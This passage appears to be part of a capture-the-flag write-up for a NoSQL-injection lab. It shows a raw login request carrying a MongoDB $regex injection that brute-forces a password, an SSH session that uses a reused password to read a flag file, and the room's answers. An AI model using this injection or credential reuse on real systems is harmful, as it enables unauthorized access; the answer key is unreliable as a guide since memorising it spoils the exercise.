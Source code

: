 ```
POST /login.php HTTP/1.1
Host: 10.10.68.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://10.10.68.12
DNT: 1
Connection: close
Referer: http://10.10.68.12/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

user=admin&pass[$regex]=^1.......$&remember=on

```

```

$ ssh pedro@10.10.68.12
pedro@10.10.68.12's password:
Permission denied, please try again.
pedro@10.10.68.12's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Wed Jun 23 03:34:24 2021 from 192.168.100.250
pedro@nosql-nolife:~$ ls -la
total 32
drwxr-xr-x 3 pedro pedro 4096 Jun 23 03:38 .
drwxr-xr-x 4 root  root  4096 Jun 23 03:33 ..
lrwxrwxrwx 1 pedro pedro    9 Jun 23 03:38 .bash_history -> /dev/null
-rw-r--r-- 1 pedro pedro  220 Jun 23 03:33 .bash_logout
-rw-r--r-- 1 pedro pedro 3771 Jun 23 03:33 .bashrc
drwx------ 2 pedro pedro 4096 Jun 23 03:34 .cache
-rw-rw-r-- 1 pedro pedro   20 Jun 23 03:35 flag.txt
-rw-r--r-- 1 pedro pedro  807 Jun 23 03:33 .profile
-rw------- 1 pedro pedro  734 Jun 23 03:35 .viminfo
pedro@nosql-nolife:~$ cat flag.txt
flag{N0Sql_n01iF3!}
pedro@nosql-nolife:~$

```

**_Answer the questions below_**

1. **What is john's password?.**

- **_10584312_**

2. **One of the users seems to be reusing his password for many services. Find which one and connect through SSH to retrieve the final flag!**

- ***flag{N0Sql_n01iF3!}***

---


